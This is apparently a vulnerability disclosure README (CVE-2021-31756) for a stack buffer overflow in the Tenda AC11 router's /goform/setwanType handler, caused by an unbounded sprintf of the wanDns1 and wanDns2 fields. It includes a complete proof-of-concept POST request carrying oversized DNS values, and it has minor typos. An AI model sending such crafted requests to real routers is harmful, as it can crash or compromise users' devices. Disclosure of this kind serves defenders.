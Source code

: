 # Tenda Router AC11 Vulnerability
The Vulnerability is in `/goform/setwanType` page which influence the lastest version of this router OS. (this is a RTOS that are different from linux system)
The Version is [AC11_V02.03.01.104_CN](https://www.tenda.com.cn/download/detail-3163.html)

## Vulnerability description
An issue was discovered on Tenda AC11 devices with firmware through 02.03.01.104_CN. A stack buffer overflow vulnerability in `/gofrom/setwanType` allows attackers to execute arbitrary code on the system via a crafted post request.

In the function `sub_800C6448` (page `/gofrom/setwanType`) have one stack buffer overflow vulnerability.

1. It isn't limit our input when we input `wanDns1` in `v12` and `wanDns2` in `v13`.
2. Then `v12` and `v13` will copy to a stack value `v45` by using `sprintf_1(v45, "%s %s", v12, v13);` .%s couldn't limit copy length ,so wo can make stack buffer overflow in `v45`
![](./1.png)

## poc 

```
POST /goform/setwanType HTTP/1.1
Host: 192.168.0.1
Content-Length: 717
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.66 Safari/537.36
Content-Type: application/x-www-form-urlencoded;
Accept: */*
Origin: http://192.168.0.1
Referer: http://192.168.0.1/index.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

module1=wifiBasicCfg&doubleBandUnityEnable=false&wifiTotalEn=true&wifiEn=true&wifiSSID=Tenda_B0E040&wanDns1=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa&wanDns2=wanDns2=bbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbb&wifiSecurityMode=WPAWPA2%2FAES&wifiPwd=Password12345&wifiHideSSID=false&wifiEn_5G=true&wifiSSID_5G=Tenda_B0E040_5G&wifiSecurityMode_5G=WPAWPA2%2FAES&wifiPwd_5G=Password12345&wifiHideSSID_5G=false&module2=wifiGuest&guestEn=false&guestEn_5G=false&guestSSID=Tenda_VIP&guestSSID_5G=Tenda_VIP_5G&guestPwd=&guestPwd_5G=&guestValidTime=8&guestShareSpeed=0&module3=wifiPower&wifiPower=high&wifiPower_5G=high&module5=wifiAdvCfg&wifiMode=bgn&wifiChannel=auto&wifiBandwidth=auto&wifiMode_5G=ac&wifiChannel_5G=auto&wifiBandwidth_5G=auto&wifiAntijamEn=false&module6=wifiBeamforming&wifiBeaformingEn=true&module7=wifiWPS&wpsEn=true&wanType=static
```
## CVE ID
CVE-2021-31756

